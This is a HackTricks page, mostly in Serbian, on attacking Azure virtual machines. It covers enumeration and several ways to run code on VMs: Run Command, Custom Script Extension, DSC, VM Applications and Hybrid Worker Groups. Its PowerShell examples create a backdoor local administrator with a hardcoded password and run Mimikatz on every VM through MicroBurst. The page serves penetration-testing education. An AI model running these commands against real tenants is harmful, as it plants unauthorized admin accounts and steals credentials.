 # Az - Virtuelne mašine i mreža

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

[Iz dokumenata:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuelne mašine su jedan od nekoliko tipova [resursa za računanje na zahtev, skalabilnih](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) koje Azure nudi. Obično birate virtuelnu mašinu kada vam je potrebna veća kontrola nad okruženjem za računanje nego što to nude druge opcije. Ovaj članak vam daje informacije o tome šta treba da razmotrite pre nego što kreirate virtuelnu mašinu, kako je kreirati i kako je upravljati.

## Azure Mrežne informacije

Azure mreže sadrže **različite entitete i načine za konfiguraciju.** Možete pronaći kratke **opisne**, **primere** i **enumeracione** komande različitih Azure mrežnih entiteta u:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** nudi sigurno, potpuno upravljano RDP (Remote Desktop Protocol) i SSH (Secure Shell) rešenje za pristup preko SSL-a putem Azure portala. Integrisan je unutar Azure Virtuelne Mreže, omogućavajući RDP i SSH povezivanje sa VM-ovima koristeći privatne IP adrese, izbegavajući potrebu za javnim IP adresama. Ovo ga čini sigurnijom, praktičnijom alternativom tradicionalnim metodama koje uključuju dodeljivanje javnih IP adresa i konfiguraciju NSG pravila za pristup VM-ovima. Programeri i IT osoblje mogu sigurno pristupiti VM-ovima sa Azure portala koristeći svoje web pretraživače, pojednostavljujući proces za razvojna i testna okruženja.

Da biste naveli sve Azure Bastion hostove u vašoj pretplati, možete koristiti sledeću komandu:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Enumeracija
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Izvršavanje komandi u VM-u**

### **AAD prijava u VM-u**

Moguće je omogućiti pristup korisnicima koji su autentifikovani putem AzureAD. Na primer, pokušavajući da pristupite **linux VM-u**: `ssh username@azure-corp.com@1.1.1.1` (važno je **koristiti email** sa azurecorp koji se koristi prilikom pokušaja prijave) mogli biste dobiti grešku kao: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Samo **pratite te instrukcije** idući na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i unoseći kod, koristite email i lozinku kao akreditive i moći ćete da se povežete putem SSH (ako taj korisnik ima dovoljno dozvola za to: `Virtual Machine Administrator Login` ili `Virtual Machine User Login` uloga).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Pokreni prilagođenu skriptnu ekstenziju**

Azure virtuelne mašine (VM) ekstenzije su **male aplikacije** koje pružaju konfiguraciju i automatizaciju **zadataka** nakon implementacije na **Azure VM-ovima**. Na primer, ako virtuelna mašina zahteva instalaciju softvera, antivirusnu zaštitu ili mogućnost pokretanja skripte unutar nje, možete koristiti VM ekstenziju.

Stoga, ako imate pristup za pisanje, možete izvršiti proizvoljan kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) je PowerShell alat sličan Ansible-u, koji se koristi za postavljanje hosta putem koda. DSC se integriše sa Azure-om, omogućavajući upload specifičnih konfiguracionih fajlova. Ovi fajlovi moraju da se pridržavaju stroge sintakse. Značajno je da DSC ekstenzija u Azure-u može izvršavati komande iz fajlova koji ispunjavaju određene kriterijume formatiranja, čak i ako sintaksa nije ispravna prema DSC standardima, kao što je prikazano na priloženoj slici.

Izvršavanje ovih komandi olakšava [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) funkcija u Az PowerShell-u. Zahtevi uključuju **.PS1** fajl sa definisanom funkcijom, a fajl mora biti upakovan u **.zip** fajl. Iako sintaksa možda nije tačna za DSC, kod će se i dalje izvršiti. Međutim, ekstenzija će označiti status izvršenja kao "neuspeh," i nijedan izlaz iz komande neće biti vidljiv zbog toga što je status prepisan porukom o neuspehu.

### VM Application Definitions

VM Application Definitions omogućavaju ponovljivo postavljanje verzionisanih aplikacija na Azure VM. Ovaj resurs podržava postavljanje i ažuriranje aplikacija širom VMs. Da bi se ovo postavilo, potrebno je nekoliko koraka, uključujući komande kao što su **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** u Az PowerShell-u.

Izvršavanje aplikacija ili komandi putem ove metode uključuje **"VMAppExtension,"** koja se automatski instalira kada se aplikacija primeni na VM. Ekstenzija preuzima fajl sa specificiranog URI i imenuje ga tačno kao aplikaciju, bez ekstenzije. Da bi se fajl ispravno izvršio, polje "ManageActions" u REST API pozivu mora biti konfigurisano da preimenuje fajl sa odgovarajućom ekstenzijom. Postavljanje ove metode, kada se završi, će ličiti na strukturu prikazanu na priloženoj slici.

Međutim, ova metoda izvršenja je relativno spora, traje oko 3-4 minuta da izvrši aplikaciju ili komandu. Fajlovi povezani sa ovim procesom se čuvaju u specifičnim direktorijumima (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` za kopiju aplikacije i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` za status izvršenja).

Obe tehnike pružaju jedinstvene načine za izvršavanje komandi i postavljanje aplikacija u Azure okruženjima, svaka sa svojim skupom zahteva, koraka i razmatranja.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) su funkcija u Azure-u koja omogućava izvršavanje Runbook-a, konfiguranih u Automation Account-u, na Azure Virtual Machine (VM) koja je deo određenog HWG-a. Ovo izvršavanje olakšava ekstenzija instalirana na VM-u, koja postavlja Runbook kod na VM. Značajan aspekt ovog procesa je da stvarne akreditive nisu faktor u izvršenju jer se kod izvršava sa povišenim privilegijama, posebno kao **SYSTEM** ili root, kao što je ilustrovano na priloženoj slici.

Ključna informacija za one koji koriste Windows 10 VMs je potreba da se specificira verzija PowerShell-a za Runbook. Trebalo bi da se postavi da se izvršava kao PowerShell Verzija 5.1 umesto 7.1. Ovaj zahtev proističe iz činjenice da PowerShell 7.1 nije instaliran po default-u na ovim VMs, što dovodi do neuspeha u izvršenju skripte ako je verzija 7.1 specificirana.

Ova funkcija Azure-a nudi robustan metod za automatizaciju i upravljanje zadacima u hibridnim okruženjima, omogućavajući centralizovano upravljanje i izvršavanje zadataka na Azure VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
